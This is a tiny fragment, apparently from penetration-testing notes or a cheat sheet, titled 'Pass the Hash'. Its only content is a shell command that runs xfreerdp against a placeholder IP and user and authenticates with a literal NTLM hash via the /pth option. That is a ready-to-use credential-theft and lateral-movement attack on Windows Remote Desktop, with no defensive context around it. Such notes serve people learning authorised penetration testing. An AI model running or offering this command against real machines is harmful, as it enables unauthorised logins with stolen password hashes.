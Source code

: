 Attacks: #PtH 
# Pass the Hash
```shell-session
$ xfreerdp  /v:<IP> /u:<user> /pth:64F12CDDAA88057E06A81B54E73B949B
```


